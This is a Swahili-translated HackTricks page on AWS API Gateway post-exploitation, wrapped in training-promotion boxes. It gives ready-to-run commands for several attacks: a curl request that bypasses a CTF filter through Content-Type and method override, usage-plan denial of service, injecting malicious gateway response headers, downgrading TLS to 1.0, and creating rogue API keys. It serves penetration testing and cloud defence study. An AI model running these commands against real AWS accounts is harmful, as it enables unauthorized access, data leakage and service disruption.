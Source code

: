 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

Unaweza kuunda kiunganishi katika [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) na huduma `com.amazonaws.us-east-1.execute-api`, funua kiunganishi katika mtandao ambapo una ufikiaji (labda kupitia mashine ya EC2) na piga kundi la usalama linaloruhusu mawasiliano yote.\
Kisha, kutoka kwa mashine ya EC2 utaweza kufikia kiunganishi na hivyo kuita API ya gateway ambayo haikuwa imefunuliwa hapo awali.

### Bypass Request body passthrough

Teknolojia hii ilipatikana katika [**hii CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Kama ilivyoonyeshwa katika [**nyaraka za AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) katika sehemu ya `PassthroughBehavior`, kwa kawaida, thamani **`WHEN_NO_MATCH`**, wakati wa kuangalia kichwa cha **Content-Type** cha ombi, itapitisha ombi kwa nyuma bila mabadiliko.

Hivyo, katika CTF API Gateway ilikuwa na kigezo cha uunganisho ambacho kilikuwa **kikizuia bendera kutolewa** katika jibu wakati ombi lilitumwa na `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Hata hivyo, kutuma ombi lenye **`Content-type: text/json`** kungesitisha hiyo chujio.

Hatimaye, kwa kuwa API Gateway ilikuwa ikiruhusu tu `Get` na `Options`, ilikuwa inawezekana kutuma uchunguzi wa dynamoDB bila kikomo kwa kutuma ombi la POST lenye uchunguzi katika mwili na kutumia kichwa `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Katika sehemu ya **Enumeration** unaweza kuona jinsi ya **kupata mpango wa matumizi** wa funguo. Ikiwa una funguo na ime **punguzia** matumizi X **kwa mwezi**, unaweza **kuitumia tu na kusababisha DoS**.

**API Key** inahitaji tu **kujumuishwa** ndani ya **HTTP header** inayoitwa **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateGatewayResponse` na `apigateway:CreateDeployment` anaweza **kubadilisha Jibu la Gateway lililopo ili kujumuisha vichwa vya habari vya kawaida au templeti za majibu ambazo zinavuja taarifa nyeti au kutekeleza scripts za uhalifu**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza skripti za uhalifu, au ufikiaji usioidhinishwa wa rasilimali za API.

{% hint style="info" %}
Hitaji la kupima
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateStage` na `apigateway:CreateDeployment` anaweza **kubadilisha hatua ya API Gateway iliyopo ili kuelekeza trafiki kwenye hatua tofauti au kubadilisha mipangilio ya caching ili kupata ufikiaji usioidhinishwa wa data iliyohifadhiwa**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa data iliyohifadhiwa, kuingilia au kukamata trafiki ya API.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:PutMethodResponse` na `apigateway:CreateDeployment` anaweza **kubadilisha jibu la njia ya API Gateway REST API iliyopo ili kujumuisha vichwa vya kawaida au templeti za majibu ambazo zinavuja taarifa nyeti au kutekeleza skripti zenye uharibifu**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Madhara Yanayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza skripti zenye uharibifu, au ufikiaji usioidhinishwa wa rasilimali za API.

{% hint style="info" %}
Hitaji la kupima
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateRestApi` na `apigateway:CreateDeployment` anaweza **kubadilisha mipangilio ya API Gateway REST API ili kuzima uandishi wa kumbukumbu au kubadilisha toleo la chini la TLS, ambayo inaweza kudhoofisha usalama wa API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Madhara Yanayoweza Kutokea**: Kudhihirisha usalama wa API, huenda ikaruhusu ufikiaji usioidhinishwa au kufichua taarifa nyeti.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Mshambuliaji mwenye ruhusa `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, na `apigateway:CreateUsagePlanKey` anaweza **kuunda funguo mpya za API, kuziunganisha na mipango ya matumizi, na kisha kutumia funguo hizi kwa ufikiaji usioidhinishwa kwa APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa rasilimali za API, kupita udhibiti wa usalama.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
